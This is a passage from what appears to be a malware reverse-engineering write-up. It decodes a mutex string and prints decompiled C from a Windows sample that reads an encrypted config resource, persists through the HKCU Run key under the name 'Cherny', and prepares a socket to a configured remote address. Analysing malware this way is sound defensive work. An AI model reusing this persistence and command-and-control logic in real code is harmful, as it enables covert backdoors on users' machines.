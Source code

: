```
> python .\decode.py
CHERNYYKHOD
```

Success! We successfully decoded a meaningful string. Although it seems this string is used for the mutex, which isn't very meaningful to us. Meanwhile, let's rename this function to `decodeStr`.

## Reverse Part.2 Main Logic Analysis

After analyzing the string decryption function, let's look at the main logic:

```c
      ModuleHandleW = GetModuleHandleW(0i64);
      v5 = GetModuleHandleW(0i64);
      ResourceA = FindResourceA(v5, "DATA", "CONFIG");
      v7 = ResourceA;
      if ( ResourceA
        && (v8 = SizeofResource(ModuleHandleW, ResourceA), (Resource = LoadResource(ModuleHandleW, v7)) != 0i64)
        && (v10 = LockResource(Resource)) != 0i64
        && v8 >= 0x42 )
      {
        v11 = malloc(v8);
        memset(v11, 0, v8);
        memcpy(v11, v10, v8);
        sub_140001750(v11, v8);
        cp = (char *)v11;
        v12 = (const BYTE *)sub_140001530();
        if ( v12 )
        {
          *(_QWORD *)&hKey.sa_family = 0i64;
          if ( !RegOpenKeyExW(
                  HKEY_CURRENT_USER,
                  L"Software\\Microsoft\\Windows\\CurrentVersion\\Run",
                  0,
                  0xF003Fu,
                  (PHKEY)&hKey) )
          {
            if ( *(_QWORD *)&hKey.sa_family )
            {
              cbData = 0;
              Type[0] = 1;
              if ( RegQueryValueExW(*(HKEY *)&hKey.sa_family, L"Cherny", 0i64, (LPDWORD)Type, 0i64, &cbData) == 2 )
              {
                v13 = -1i64;
                while ( *(_WORD *)&v12[2 * v13++ + 2] != 0 )
                  ;
                RegSetValueExW(*(HKEY *)&hKey.sa_family, L"Cherny", 0, 1u, v12, 2 * v13 + 2);
              }
              CloseHandle(*(HANDLE *)&hKey.sa_family);
            }
          }
        }
        *(_QWORD *)&hKey.sa_data[6] = 0i64;
        *(_OWORD *)&hReadPipe = 0i64;
        *(_OWORD *)&hObject = 0i64;
        *(_OWORD *)&hThread = 0i64;
        xmmword_140008730 = 0i64;
        if ( WSAStartup(0x202u, &WSAData) )
          return 0;
        hKey.sa_family = 2;
        *(_WORD *)hKey.sa_data = htons(*((_WORD *)cp + 32));
        *(_DWORD *)&hKey.sa_data[2] = inet_addr(cp);
```